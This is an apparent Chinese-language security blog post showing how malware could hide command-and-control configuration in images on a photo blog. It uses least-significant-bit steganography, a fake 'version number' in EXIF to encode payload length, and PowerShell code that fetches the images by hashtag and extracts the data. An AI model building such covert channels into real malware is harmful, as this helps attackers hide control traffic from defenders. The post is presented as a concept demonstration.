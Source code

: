 # 滥用图片博客做 C&C 配置

0x00 背景
=====

几个月前看到有文章介绍俄罗斯的 Hammertoss 恶意软件，使用 Twitter 作为 C&C 服务。以类似方式滥用 TechNet 的也有过报道【1】。脑洞了一下觉得，使用图片（或者其他格式）作为隐写（steganography）的载体来携带 C&C 控制命令更为隐蔽一些，而且携带的信息容量相对 twitter 的 140 字限制大得多。

一些轻博客可以保存用户上传的原始图片，还支持对图片添加标签（hash tag）。通过一个固定的 url 就可以获取到具有某个 hash tag 的图片。这样既可以无损嵌入隐蔽信息，还能很快定位到“有问题”的图片。在控制方需要修改配置（如 IP 发生变化）的时候，只需要登录社交网站，上传新的控制命令即可完成更新。灵活而更有隐蔽性。

本文示例中使用了最简单的隐写方式——最低有效位来嵌入 C&C 信息，有兴趣的读者也可以自行实现其他水印算法。图片博客选择了某国内流行的服务，仅作演示。

0x01 隐藏原理
=====

LSB 嵌入隐藏信息的思路非常简单。选择不带 Alpha 通道的 24 位位图作为载体，图片中每个像素具有 RGB 三个颜色分量，取值范围位 0x00 ~ 0xFF，共 8 个二进制位。这样一个像素可以表示 16777216 种颜色。

针对每一个颜色通道，修改其最低的二进制位，而其余 7 位保持不变，这样细小的差别在肉眼上难以分辨。如下图所示，前后两个色块看上去几乎没有差别。

![LSB](http://drops.javaweb.org/uploads/images/f2b5666c056dfbca9d0dba7be8b79cba7203bb50.jpg)

这样就在像素中“开辟”了携带信息的空间。通过将信息嵌入到最低有效位的方式，每个像素就可以携带 3bit 的信息，也就是 23 == 8 种状态。

0x02 图像的混合
=====

要想支持任意二进制数据的嵌入，还需要对原始数据进行预编码，将一个字节映射到多个像素中。正好有一种编码方式——base64，其特点是将二进制数据编码成为 64 个可打印的元字符，结尾使用 == 进行长度对齐。64 正好是 26，正好是两个像素使用最低有效位所能容纳的信息量。

由于 C&C 命令是不确定长度的，因此需要额外的字段来指明这个长度。可以模仿 IE 中 BSTR 的做法，在结构体起始元素中标明整个数组的长度；也可以利用图像的元数据，如 EXIF 来存储。

直接在 EXIF 中出现数据太容易被发现。笔者设计了一个算法，可以将一个不太大的正整数编码成为一个字符串，这个字符串肉眼看上去非常像一个软件的版本号。接着将这个“版本号”放置于 EXIF 的 Software 字段，看上去毫无违和感。

![Fake Version](http://drops.javaweb.org/uploads/images/9719137f460f7d15e4ab45d888458a126fd21d0a.jpg)

编码非常简单。先将 n 开平方后向下取整得 e；将 n 转换为 e 进制数，每一位得到一个数组 a；将 e 添加到数组 a 的第一个元素；以小数点为分隔符 join 得到字符串 s；最后倒转 s 得到 s' 即为“版本号”。例如 n=1992，开平方取整得到 e=44，1992 转为 44 进制得到`1992 = 12 * 442 + 1 * 441 + 1 * 440`，即得数组 [44, 12, 1, 1]，最后合并再反转字符得到 1.1.21.44，再加上个胡诌的软件名，真是个版本号的样子……

```
def fakever(n):
  def nums(num):
    base = int(num ** 0.5)
    yield base
    while num:
      yield num % base
      num //= base

  ver = map(str, nums(n)) if n >= 4 else (str(n), '1')
  return '.'.join(ver)[::-1]

```

将配置嵌入图片使用 PIL 库实现，基本流程如下：

*   读入 C&C 配置，将其编码成 64 个元字符，对应 0x00 - 0x40
*   读入图像，将其色彩模式转换为 RGB
*   每两个像素为一组，嵌入一个元字符
*   将嵌入数据的长度编码成所谓“版本号”，写入 EXIF 数据

虽然 PIL 的图像对象提供了`putpixel`和`getpixel`的方法来操作单个像素，但在批量处理大量像素的时候，这两个方法效率很低。更好的方式是使用`PIL.Image`对象的`tobytes`方法将图像转为像素数组，直接操作数组的值来修改像素。

完整代码见[github.com/ChiChou/lowershell/steg.py](https://github.com/ChiChou/lowershell/blob/91d05105afde7c415b33087a6bc9f4b36aeb1f92/util/steg.py)

需要注意的是，输出文件格式必须使用无损的 png 或者 bmp，推荐 png。JPEG 图像格式可能导致像素信息丢失，无法提取完整的数据。

接着注册一个马甲，把合成的图片上传到社交网络，指定一个标签即可。

0x04 隐藏信息的提取
=====

作为“恶意软件”的一方，获取 C&C 配置仅需要请求一个社交网站的页面，解析 HTML 内容获得原图 url，最后下载并解码隐藏的信息。本文演示程序使用 PowerShell 编写。借助 .NET 的 HTML 解析和图像处理功能，可以轻松实现隐藏信息还原。

PowerShell 的`Invoke-WebRequest`cmdlet 可以发起一个 http 请求，返回页面的 document 对象。通过 document 对象可以对页面 DOM 树下的元素进行遍历和读取。例如 Images 属性可以获得页面中所有的图片元素。

以国内某图片博客为例，获取标签名为 world 的图片的原图 url 只需要一行：

```
(Invoke-WebRequest 'http://www.lofter.com/tag/world'l).Images | where {$_.'data-origin'} | % {$_.'data-origin' -replace "\?imageView.*$"}

```

PowerShell 的一大优势是可以直接调用 .NET 框架。.NET 的`System.Drawing`程序集提供了位图的处理功能，可以读取像素数据以及解析 EXIF。

提取信息的实现与图像嵌入的代码过程正好相反：

*   读取 EXIF，算出 payload（C&C配置文件）的长度
*   每两个像素为一组提取最低有效位，组成一个元字符
*   将元字符映射成 base64 编码字符串，解码即可得到原始隐藏数据

与 PIL 类似，在 .NET 中最佳的修改像素的方式也是直接修改数组。使用`Image`对象的`LockBits`将整个位图区域锁定为只读，接着使用 Marshal 将像素数据复制为二进制数组，直接操作数组而非像素可以提升速度。

```
$rect = [System.Drawing.Rectangle]::FromLTRB(0, 0, $img.width, $img.height)
$mode = [System.Drawing.Imaging.ImageLockMode]::ReadOnly
$format = [System.Drawing.Imaging.PixelFormat]::Format32bppArgb
$data = $img.LockBits($rect, $mode, $img.PixelFormat)
$size = [Math]::Abs($data.Stride) * $img.Height
$pixels = New-Object Byte[] $size
[System.Runtime.InteropServices.Marshal]::Copy($data.Scan0, $pixels, 0, $size) # 复制到缓冲区

```

完整代码参考

[github.com/ChiChou/lowershell/server/Lib/Steg.ps1](https://github.com/ChiChou/lowershell/blob/f05624c654103a8dd6ff55a8208a11f6f3313aa3/server/Lib/Steg.ps1)

在这个示例项目中还实现了带加密的 icmp 反弹 shell，不在本文讨论范围内，此处省略。

0x05 运行效果
=====

首先准备一张大小适合的图片，小了无法容纳数据，大了不方便网络传输。

![IMG_7495](http://drops.javaweb.org/uploads/images/f7a0f2fb99c62ebb84c1008693d6fb8bcc1ff3c0.jpg)

执行`python steg.py example.config.json IMG_7495.jpg blend.png`

得到合成的图片如下：

![blend](http://drops.javaweb.org/uploads/images/b38d08198d82728902feebf63f6b19f1d6c452c4.jpg)

粗看上去没有区别。以`#ThisIsAnUniqueSecretTag`为标签上传，接着换一个机器执行 PowerShell 脚本，可完整地将配置文件 example.config.json 读取出来。

![read](http://drops.javaweb.org/uploads/images/80c7f0532dc3cc5614faf59a6eedd294ed3eb886.jpg)

0x06 结语
=====

隐写术作为隐蔽通信的手段，在恶意软件中的应用由来已久。本文提出并实现了一种通过滥用图片社交网站来下发 C&C 控制指令的方法，仅作概念演示和抛砖引玉。

0x07 参考资料
=====

1.  [FireEye, Microsoft wipe TechNet clean of malware hidden by hackers](http://www.zdnet.com/article/fireeye-microsoft-wipe-technet-clean-of-malware-hidden-by-hackers/)
2.  [Wikipedia 隐写术](https://zh.wikipedia.org/wiki/%E9%9A%90%E5%86%99%E6%9C%AF)